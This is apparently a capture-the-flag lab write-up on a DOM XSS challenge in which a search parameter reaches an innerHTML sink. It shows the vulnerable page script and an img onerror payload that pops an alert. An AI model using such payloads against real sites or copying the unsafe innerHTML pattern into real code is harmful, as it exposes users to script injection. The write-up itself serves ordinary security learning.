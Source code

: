 # Challenge: DOM XSS in innerHTML sink using source location.search
- Category: Web

## Description

## Flag: 


## Solution
Upon opening the website, it was again a blogpage but with a search bar this time.

Entering a random stringh in the search bar and then looking at the source-view, i saw 

<img width="842" height="383" alt="image" src="https://github.com/user-attachments/assets/2c920cd0-d976-476a-bcea-36c005f7b096" />

I saw a `<span>` block around the search area and upon looking into how `<span>` works in innerhtml, I came up with the payload

```
<h1>
    <span>0 search results for '</span>
    <span id="searchMessage">
        <img src="x" onerror=alert('hhhh')>
    </span><span>'</span></h1>
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```
This sets innerHTML to `document.getElementById('searchMessage').innerHTML = query;` which solved the lab for me

## References
- https://owasp.org/www-community/attacks/DOM_Based_XSS
- https://learn.snyk.io/lesson/dom-based-xss/?ecosystem=javascript

